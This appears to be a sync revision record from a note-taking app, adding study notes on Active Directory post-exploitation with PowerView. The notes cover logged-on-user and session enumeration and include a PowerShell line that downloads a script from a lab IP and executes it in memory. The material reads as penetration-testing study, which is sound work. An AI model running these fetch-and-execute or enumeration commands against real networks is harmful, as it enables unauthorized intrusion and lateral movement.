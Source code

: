 id: 8a75aa856e82445199b20735035c15d4
parent_id: d49e365c8e6a4e5882749c9d146bbd83
item_type: 1
item_id: 7ae7e944304240578b19ddef6d1ed8c5
item_updated_time: 1650606406077
title_diff: "[{\"diffs\":[[0,\"owerView\"],[1,\" (AD Post Exploit)\"]],\"start1\":1,\"start2\":1,\"length1\":8,\"length2\":26}]"
body_diff: "[{\"diffs\":[[0,\"42393ed)\"],[1,\"\\\n\\\nIf powershell directly, \\\\[Apparently it doesn't work\\\\]\\\n\\\n> NetWkstaUserEnum  # lists information about all users currently logged on to the workstation.\\\n> \\\n> NetSessionEnum(&\\\"servername\\\", &\\\"workstationname\\\", &\\\"username\\\", 502)  # https://docs.microsoft.com/en-us/windows/win32/api/lmshare/nf-lmshare-netsessionenum\\\n\\\n**May have errors. Instead, use PowerView to save time (inside /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 or ~/ADlibs)**\\\n\\\n- Either DownloadFile or DownloadString(No need import)\\\n\\\n> Import-Module .\\\\\\\\PowerView.ps1\\\n> \\\n> IEX(New-Object System.Net.WebClient).downloadString('http://192.168.119.168:5001/PowerView.ps1')\\\n> \\\n> Get-NetLoggedon -ComputerName &lt;workstation&gt; # NetWkstaUserEnum - get logged on user list\\\n\\\n![fad1c8ed8c2fc50014659ecb25fc6637.png](:/78133b2a55b44b30be84cf56164042c2)\\\n\\\n> Get-NetSession -ComputerName &lt;DC&gt; # NetSessionEnum - Get active sessions\\\n\\\n![2d91a92b1743c78b260b0ec7ffb8cc18.png](:/c8dfaf8ca3b54b248630872404920194)\"]],\"start1\":248,\"start2\":248,\"length1\":8,\"length2\":991}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-22T05:46:57.748Z
created_time: 2022-04-22T05:46:57.748Z
type_: 13